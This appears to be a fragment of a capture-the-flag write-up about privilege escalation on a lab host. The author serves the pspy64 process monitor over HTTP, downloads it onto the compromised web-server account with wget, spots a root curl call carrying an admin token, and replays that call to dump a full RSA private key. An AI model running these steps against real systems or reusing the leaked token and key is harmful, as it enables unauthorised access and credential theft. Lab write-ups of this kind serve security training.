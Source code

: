 `python3 -m http.server 8000`

```jsx
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

```jsx
www-data@incognito:/var/www/html$ wget http://10.2.37.37:8000/pspy64

pspy64              100%[===================>]   2.96M   809KB/s    in 5.4s    

2024-12-13 10:39:36 (566 KB/s) - 'pspy64' saved [3104768/3104768]

www-data@incognito:/var/www/html$ chmod +x pspy64
www-data@incognito:/var/www/html$ ./pspy64

[REDACTED] - MORE

2024/12/13 10:42:01 CMD: UID=0     PID=2837   | curl http://127.0.0.1:1027/?admin=ScadfwerDSAd_343123ds123dqwe12

[REDACTED] - MORE

www-data@incognito:/var/www/html$ curl http://127.0.0.1:1027/?admin=ScadfwerDSAd_343123ds123dqwe12

-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAyLHluXzbi43DIBFC47uRqkXTe72yPGxL+ImFwvOw8D/vd9mj
rt5SXjXSVtn6TguV2SFovrTlreUsv1CQwCSCixdMyQIWCgS/d+LfUyO3SC4FEr+k
wJ0ALG6wdjmHdRDW91JW0pG9Q+nTyv22K0a/yT91ZdlL/5cVjGKtYIob/504AdZZ
5NyCGq8t7ZUKhx0+TuKKcr2dDfL6rC5GBAnDkMxqo6tjkUH9nlFK7E9is0u1F3Zx
qrgn6PwOLDHeLgrQUok8NUwxDYxRM5zXT+I1Lr7/fGy/50ASvyDxZyjDuHbB7s14
K2HI32lVrx8u4X9Y2zgIU/mlIjuUtTyIAH4kswIDAQABAoIBAQCcPUImIPmZrwcU
09tLBx7je/CkCI3VVEngds9XcfdxUZTPrPMsk490IFpbmt6uG37Qxp2QuauEsUEg
v0uxCbtHJSB169XUftXAMzLAurFY09rHOcK84HzeGl3t6+N0U2PGrqdAzoyVblef
U9yZ3D46Idj3LS9pDumLnNZ0rZAWcaHW+rgjNqjsoBdQL7HGW+sacDAmZzU/Eti9
mH97NnrxkZuGXcnabXWcUj0HFHssCpF8KFPT3xxwtrqkUTJdMvUxxCD54HXiKM3u
jLXlX+HwHfLKHugYvLUuez7XFi6UP83Hiqmq48kB09sBa2iTV/iy6mHe7iyeELaa
9o7WHF2hAoGBAOPxNWc3vH18qu3WC6eMphPdYOaGBjbNBOgzJxzh/evxpSwRSG9V
63gNgKJ8zccQff/HH1n54VS+tuF7RCykRNb+Ne7K/uiDe1TpOKEMi7XtXOYHy5s1
tykL0OPdSs4hN1jMJjkSfPgdNPmxM3bbJMHDPjdQXAK6DnXmOCETaPAnAoGBAOFm
Fhqv8OREYFq+h1mDzMJn5WsNQQZnvvetJR7g3gfKcVblwMhlh504Tf3o00OGCKC1
L4iWMNb6uitKfTmGNta5X8ChWSVxXbb9fOWCOudNGt/fb70SK6fK9CSl66i/niIw
cIcu0tpS/T3MoqwMiGk87ivtW3bK20TsnY0tX3KVAoGAEeJdBEo1OctMRfjjVTQN
28Uk0zF0z1vqpKVOzk9U8uw0v25jtoiRPwwgKZ+NLa83k5f198NJULLd+ncHdFE3
LX8okCHROkEGrjTWQpyPYajL/yhhaz4drtTEgPxd4CpvA0KRRS0ULQttmqGyngK3
sZQ2D3T4oyYh+FIl2UKCm0UCgYEAyiHWqNAnY02+ayJ6FtiPg7fQkZQtQCVBqLNp
mqtl8e6mfZtEq3IBkAiySIXHD8Lfcd+KZR7rZZ8r3S7L5g5ql11edU08uMtVk4j3
vIpxcIRBGYsylYf6BluHXmY9U/OjSF3QTCq9hHTwDb+6EjibDGVL4bDWWU3KHaFk
GPsboZECgYAVK5KksKV2lJqjX7x1xPAuHoJEyYKiZJuw/uzAbwG2b4YxKTcTXhM6
ClH5GV7D5xijpfznQ/eZcTpr2f6mfZQ3roO+sah9v4H3LpzT8UydBU2FqILxck4v
QIaR6ed2y/NbuyJOIy7paSR+SlWT5G68FLaOmRzBqYdDOduhl061ww==
-----END RSA PRIVATE KEY-----

www-data@incognito:/var/www/html$
```

